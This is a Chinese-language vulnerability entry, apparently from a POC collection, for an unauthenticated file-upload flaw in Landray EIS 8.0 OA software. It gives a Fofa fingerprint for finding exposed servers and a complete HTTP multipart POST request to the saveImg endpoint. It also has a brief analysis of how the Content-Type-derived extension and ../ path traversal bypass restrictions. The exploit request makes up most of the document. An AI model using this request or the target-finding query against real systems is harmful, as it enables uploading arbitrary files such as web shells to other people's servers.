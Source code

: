 ```yaml
---
title: 蓝凌EIS 8.0新版前台文件上传漏洞
---
```

# 蓝凌EIS 8.0新版前台文件上传漏洞 

## 漏洞厂商

landray蓝凌   

## 厂商官网

https://www.landray.com.cn/

## 产品

蓝凌智能OA EIS 8.0 

https://www.landray.com.cn/blue?target=zhinengoa

## Fofa语法

```
icon_hash="953405444" 
```

## POC

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jh3g1b45deo2ny55kmxl4355; Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Length: 483
 
------WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Disposition: form-data; name="file"filename="test.jpg"
Content-Type: text/html


111
------WebKitFormBoundaryZUtvHzp8FchbbUUn--
```

文件路径`Scripts/plupload/1.txt`

漏洞分析:

`/eis/service/api.aspx`下存在一个`SvaeImg`方法。

当`action=saveimg`时，则进入

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172207322.png)

一处简单的文件上传漏洞，取file参数的io流。后时间戳+ext变量。

这里的变量取的是`Content-Type`头的`image`/后的内容，由于`web.config`中定义了一些可以未登录访问的路径。

../跨目录绕过

访问 `/eis/service/api.aspx?action=saveImg`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172523693.png)
